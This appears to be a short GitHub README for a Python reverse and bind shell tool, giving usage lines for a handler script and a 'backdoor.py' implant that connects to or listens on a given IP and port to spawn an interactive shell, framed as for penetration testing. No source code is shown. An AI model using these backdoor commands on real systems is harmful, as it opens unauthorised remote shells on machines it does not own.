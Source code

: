 Python Reverse-Bind Shell
Usage:
        >>chmod +x akhyls.py
        
        chmod +x backdoor.py

        >>./akhyls.py -R <PORT>                 (reverse shell)(own computer)
        >>./backdoor.py --c <IP> <PORT>         (connect mode)(vulnerable machines for penetration testing)
        >> Interactive shell to check >> use command 'shell_check'
        >>Interactive shell to spawn >> use command 'interactive_shell'
<img src="https://preview.ibb.co/kT9JLz/1.png">
<img src="https://image.ibb.co/nmjBxe/Screen_Shot_08_23_18_at_10_37_PM.png">

        
        OR              OR              OR
        
        >>./backdoor.py --l <PORT>              (listen mode)(vulnerable machines for penetration testing)
        >>./akhyls.py -B <IP> <PORT>            (bind shell)(own computer)
        >> Interactive shell to check >> use command 'shell_check'
        >>Interactive shell to spawn >> use command 'interactive_shell'

<img src="https://image.ibb.co/bCFvOK/Screen_Shot_08_23_18_at_10_38_PM.png">      
<img src="https://preview.ibb.co/b3ffYK/Screen_Shot_08_20_18_at_04_52_PM_001.png">

